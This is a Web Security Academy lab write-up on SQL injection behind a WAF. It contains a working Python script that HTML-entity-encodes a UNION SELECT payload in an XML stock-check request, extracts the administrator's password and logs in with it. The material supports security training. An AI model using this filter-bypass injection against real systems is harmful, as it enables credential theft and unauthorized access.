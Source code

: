 ```yaml
---
title: SQL injection with filter bypass via XML encoding
tags:
  - web-app
  - sql
  - injection
---
```


<a href="https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding/">
15. SQL injection with filter bypass via XML encoding</a>

This lab contains a SQL injection vulnerability wherein the /product/stock API
uses XML to read SQL query parameters. These are directly passed to the SQL
backend, however, a WAF exists that detects if a SQL injection attack is being
attempted and blocks the request.

To bypass this, we use HTML entity encoding to encode our SQL injection payload.
These HTML entities bypass the WAF, and then are processed by the server and
sent to the SQL backend. Using this, we can leak the administrator's password to
login.

Solution:

```python
# usage:
# python3 15.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net

import http.client
import re
import string
import xml.etree.ElementTree as ET
from argparse import ArgumentParser

import requests

ALPHANUM = list(string.digits + string.ascii_lowercase)
http.client.HTTPConnection.debuglevel = 1


class Solution:
    def __init__(self, url: str) -> None:
        self.url = url.rstrip("/")
        self.s = None

    def login(self, username: str, password: str) -> requests.Response:
        self.s = requests.Session()
        login_url = f"{self.url}/login"
        r = self.s.get(login_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        r = self.s.post(
            login_url,
            data={
                "csrf": csrf,
                "username": username,
                "password": password,
            },
        )

        return r

    def solve(self) -> None:
        query = "UNION SELECT password FROM users WHERE username='administrator'--"
        hex_encoding = ";".join([f"&#x{hex(ord(c))}" for c in query])

        payload = ET.Element("stockCheck")
        ET.SubElement(payload, "productId").text = "1"
        ET.SubElement(payload, "storeId").text = f"1 {hex_encoding};"
        payload = ET.tostring(payload).replace(b"amp;#x0", b"#")

        self.s = requests.Session()
        r = self.s.post(
            f"{self.url}/product/stock",
            headers={"Content-Type": "application/xml"},
            data=payload,
        )
        password = re.findall(r"units\s([\w]+)", r.text)[0]

        print(f"Password found! -- {password}")
        self.login("administrator", password)


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    args = parser.parse_args()
    s = Solution(args.url)
    s.solve()


if __name__ == "__main__":
    main()
```
